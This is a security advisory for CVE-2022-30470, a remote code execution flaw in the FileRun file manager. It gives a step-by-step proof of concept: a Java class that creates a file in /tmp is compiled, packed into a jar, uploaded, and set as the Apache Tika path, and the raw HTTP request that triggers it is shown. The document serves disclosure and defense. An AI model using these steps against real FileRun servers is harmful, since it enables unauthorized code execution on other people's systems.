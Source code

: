 # CVE-2022-30470 - RCE (Afian Filerun)

**CVE-ID:** CVE-2022-30470

**Affected Product:** Filerun

**Affected Versions:** Update 20220202

**Vulnerability:** Remote Code Execution

**Vendor URL:** [https://filerun.com](https://filerun.com)

**Status:** Unfixed

**Severity:** Medium


## Description
The application allows the usage of Apache Tika to extract file contents.
The path of the jar file can be configured in the web interface as superuser.

The FileRun superuser can upload any custom jar file to receive remote code execution.


## Proof of Concept
The first step is to create our own jar file.
In this example, we just create a new file in the `/tmp` directory.

The source of `CreateFile.java`:
```java
import java.io.File; 
import java.io.IOException;

public class CreateFile {  
  public static void main(String[] args) {  
    try {  
      File myObj = new File("/tmp/filename.txt");  
      if (myObj.createNewFile()) {  
        System.out.println("File created: " + myObj.getName());  
      } else {  
        System.out.println("File already exists.");  
      }  
    } catch (IOException e) {
      System.out.println("An error occurred.");
      e.printStackTrace();  
    }  
  }  
} 
```

Compile:
```bash
javac CreateFile.java
```

Create a manifest file `manifest.mf`:
```
Manifest-Version: 1.0
Main-Class: CreateFile

```

Finally, create the jar file `proof.jar`:
```
jar cmf manifest.mf proof.jar CreateFile.class
```

Upload the `proof.jar` file to your user files.
Visit the control panel at http://localhost/?module=cpanel#/cpanel/files/searching
Change the path of the tika jar to your own which looks something like this (in the docker version):

```
/user-files/jdoe/proof.jar
```

Click on the "test" button to check your config. The following request is triggered, which results in our new file created in `/tmp`.
```http
POST /?module=cpanel&section=settings&page=file_search&action=testTikaCli HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 145
Origin: http://localhost
Connection: close
Referer: http://localhost/?module=cpanel
Cookie: DOKU_PREFS=ext_enabled%231%23ext_disabled%231%23ext_updatable%231; FileRunSID=ca0c7810ef614b2d994278daf36afaf9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

search_tika_path=%2Fuser-files%2Fjdoe%2Fproof.jar&search_tika_config_path=&csrf=707f3482362367cab31b77f23b8b4228c23808cd5ffe5e037aea3f3203178a97
```


